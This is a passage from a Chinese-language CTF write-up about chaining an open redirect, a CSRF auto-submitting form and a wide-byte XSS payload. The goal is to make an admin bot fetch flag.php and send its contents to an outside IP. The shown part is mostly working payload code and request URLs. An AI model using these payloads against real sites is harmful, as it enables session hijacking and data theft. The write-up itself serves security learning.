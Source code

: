 ```
			)
	    }
	)
```

这里请求类似于
```

	http://54.223.108.205:23333/view.php?id=MTU0ODQ2&p=flag.phphttp%3A%2f%2f115.28.78.16%2f
```

这样一个完整的xss payload就构造好了，那么我们遇到了新的问题，怎么让管理员看到这样一个页面呢？

## 构造csrf ##

目光重新回到report bugs，这里的report bug有两个条件

1、必须是http://54.223.108.205:23333开头
2、不能有#\@这样的符号

回想前面找到的条件，还记得跳转吗

比如说传入
```
http://54.223.108.205:23333/login.php?redirecturl=http://115.28.78.16
```

后台守护的bot就会跳转到`http://115.28.78.16`去了。

那么我们很合理就可以想到在跳转到的位置构造一个自动提交的表单，这样就可以构成一个post请求向new.php，成功创建一个表单提交（我居然在这里卡了1个小时直到断电...）

payload:
```

	<html>
	
	<head>
		
	</head>
	<body>
	<?php
		$s = "%df%5Cx3cimg src=x onerror=window.onload=function(){\$.get(window.location.search.substr(15,8),{id:document.domain,},function(data){window.location=decodeURIComponent(window.location.search.substr(23))+encodeURIComponent(data);})};// c=%df%5Cx3e";
	
		$st = urldecode($s);
	?>
	
		<form action="http://54.223.108.205:23333/new.php" method="POST">
			<input type="text" name="title" value="test2">
			<input type="text" name="content" value="<?php echo $st; ?>">
			<input type="submit" name="ssubmit" value="submit">
		</form>
		<script>
			document.forms[0].submit();
		</script>
	
	</body>
	
	
	</html>

```
